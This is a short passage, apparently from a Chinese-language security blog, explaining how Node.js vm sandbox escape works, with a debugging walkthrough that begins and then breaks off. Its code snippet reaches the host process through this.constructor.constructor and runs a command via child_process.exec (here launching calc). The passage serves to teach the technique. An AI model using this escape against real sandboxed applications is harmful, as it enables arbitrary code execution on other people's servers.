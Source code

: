 [![](assets/1706496096-4b3707ae689ba70a03c7d13e37908d75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126140434-c76ca366-bc10-1.png)

## 沙箱逃逸原理

示例分析：

```plain
const vm = require("vm");

const code = 'this.constructor.constructor("return process")();';

const res=vm.runInNewContext(code);

console.log(res.mainModule.require("child_process").exec('calc'));
```

我们以==vm.runInNewContext==沙箱逃逸进行分析如何通过 vm 板块进行沙箱逃逸的，debug 看一下

[![](assets/1706496096-1cb9eb0c3886abdd5107502e61526be9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126140440-cae8c448-bc10-1.png)
